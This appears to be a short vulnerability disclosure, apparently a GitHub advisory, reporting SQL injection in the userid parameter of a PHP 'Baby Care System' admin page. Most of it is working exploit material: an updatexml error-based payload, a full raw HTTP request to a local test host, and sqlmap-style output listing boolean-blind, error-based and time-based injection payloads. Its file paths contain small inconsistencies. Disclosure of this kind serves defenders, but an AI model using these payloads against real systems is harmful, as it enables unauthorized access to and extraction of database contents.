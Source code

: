## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html


Vulnerability file: /BabyCare/admin/uesrs.php&action=display&value=Hide&userid=

![image](https://user-images.githubusercontent.com/54017627/161356353-ed05fce2-7ad0-4f82-ba55-eddd9a8948ea.png)

Vulnerability location: /BabyCare/admin.php?id=users&action=display&value=Hide&userid=3 //uesrid is Injection point

[+]Payload: /BabyCare/admin.php?id=users&action=display&value=Hide&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //userid is Injection point

```sql
GET /BabyCare/admin.php?id=users&action=display&value=Hide&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161356446-b8a42d72-b863-46be-abde-72293066173f.png)

```sql
---
Parameter: userid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=users&action=display&value=Hide&userid=3' RLIKE (SELECT (CASE WHEN (4266=4266) THEN 3 ELSE 0x28 END))-- anKB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=users&action=display&value=Hide&userid=3' AND (SELECT 6721 FROM(SELECT COUNT(*),CONCAT(0x71787a7671,(SELECT (ELT(6721=6721,1))),0x7176707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VDvY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=users&action=display&value=Hide&userid=3' AND (SELECT 4203 FROM (SELECT(SLEEP(5)))ArnD)-- lMLp
---
```

![image](https://user-images.githubusercontent.com/54017627/161356459-c7e30dce-0409-4f33-bbb2-f01d3880d198.png)
